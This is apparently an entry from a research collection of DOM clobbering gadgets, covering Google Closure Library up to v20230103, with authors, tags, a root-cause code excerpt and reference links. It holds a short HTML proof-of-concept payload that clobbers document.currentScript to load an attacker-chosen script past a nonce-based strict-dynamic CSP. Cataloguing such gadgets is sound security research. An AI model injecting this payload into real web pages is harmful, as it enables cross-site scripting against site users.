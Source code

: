 ```yaml
---
description: Closure Library is a powerful, low-level JavaScript library designed for building complex and scalable web applications. It is used by many Google web applications, such as Google Search, Gmail, Google Docs, Google+, Google Maps, and others.
github: google/closure-library
gadgets:
  ≤v20230103:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Google Closure Library](https://github.com/google/closure-library) was using the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/base.js">

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/google/closure-library/blob/b312823ec5f84239ff1db7526f4a75cba0420a33/closure/goog/base.js#L2174">https://github.com/google/closure-library/blob/b312823ec5f84239ff1db7526f4a75cba0420a33/closure/goog/base.js#L2174</a>

      ```javascript
      // If we have a currentScript available, use it exclusively.
      var currentScript = doc.currentScript;
      if (currentScript) {
        var scripts = [currentScript];
      } else {
        var scripts = doc.getElementsByTagName('SCRIPT');
      }
      // Search backwards since the current script is in almost all cases the one
      // that has base.js.
      for (var i = scripts.length - 1; i >= 0; --i) {
        var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
        var src = script.src;
        var qmark = src.lastIndexOf('?');
        var l = qmark == -1 ? src.length : qmark;
        if (src.slice(l - 7, l) == 'base.js') {
          goog.basePath = src.slice(0, l - 7);
          return;
        }
      }

      // [...]

      goog.DebugLoader_.prototype.loadClosureDeps = function() {
      // Circumvent addDependency, which would try to transpile deps.js if
      // transpile is set to always.
      var relPath = 'deps.js';
      this.depsToLoad_.push(this.factory_.createDependency(
          goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
      this.loadDeps_();
      };
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

